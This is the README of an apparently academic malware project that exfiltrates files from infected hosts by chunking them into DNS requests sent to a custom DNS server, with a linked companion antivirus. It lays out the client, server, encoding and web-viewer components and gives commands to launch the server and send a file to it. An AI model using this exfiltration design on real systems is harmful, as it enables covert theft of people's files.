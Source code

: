 # SwaggyPloop

This project contains the infrastructure for a piece of malware that exfiltrates data from a computer via DNS requests.
* The `client` folder contains the code for the malware client that searches an infected host for important files. It then chunks the files into 254 byte blocks and sends out the chunks to our custom server via a DNS request.
* The `dns` folder contains our own custom fork of the `dnspython` library, which we use to form the DNS requests on the client side.
* The `dns_server` folder contains our custom DNS server that listens for incoming requests structured according to our custom request format and logs them in a database for later reconstruction.
* The `lib` folder contains the code that handles the encoding and packet structuring to break apart the files for transit as well as the code for reconstructing them on the server side. This folder also contains utility code for logging and querying into the database.
* The `web_interface` folder contains a web interface for viewing the data chunks logged in the database and allows for the reconstructed data to visualized.

The accompanying antivirus can be found [here](https://github.com/CrMallard/Antibody)

## Setup
This project requires Python `>=3.5`. You may run it in the virtual environment of your choice.

### Custom DNS Server
```
pip install -r requirements.txt
sudo python dns_server/malware_server.py # sudo is required to use port 53
```

### Exfiltrating a file (proof of concept)
```
pip install -r requirements.txt
python client/malware_client.py <file> [ip address of dns server]
```

## Authors
* Alvin Lin (omgimanerd)
* Stefan Aleksic (ColdSauce)
* Chris Remillard (CrMallard)
